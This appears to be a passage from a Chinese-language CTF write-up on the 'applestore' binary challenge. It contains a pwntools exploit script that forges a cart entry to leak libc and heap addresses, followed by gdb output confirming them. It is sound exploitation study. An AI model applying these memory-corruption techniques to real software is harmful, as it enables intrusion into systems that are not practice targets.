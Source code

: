 
```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF('applestore')
libc = ELF('../../my_ubuntu32_libc.so')
io = process(myelf.path)

add = '2';delete='3';cart='4';checkout='5'

def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)
for i in range(6):
    action(add,'1')
for i in range(20):
    action(add,'2')
action(checkout,'y')

payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))

log.warn('libc_addr: 0x%x' % libc_addr)
log.warn('heap_addr: 0x%x' % heap_addr)

gdb.attach(io,'b * 0x8048beb')
io.interactive()
```

打印出来的地址如下：

```python
[!] libc_addr: 0xf7de2000
[!] heap_addr: 0x9ffe490
```
然后在gdb的调试窗口里通过vmmap命令查看libc起始地址，我们的计算正确：

```python
gef➤  vmmap
Start      End        Offset     Perm Path
0xf7de2000 0xf7f92000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
```

然后查看堆块的地址，第一个堆块的数据地址为0x09ffe008，32位下减去8字节的heap header，所以堆空间的起始地址就是0x09ffe000

```python
gef➤  heap chunks
Chunk(addr=0x9ffe008, size=0x408, flags=PREV_INUSE)
    [0x09ffe008     3e 20 3a 20 90 e4 ff 09 c7 20 2d 20 24 30 0a 08 
```
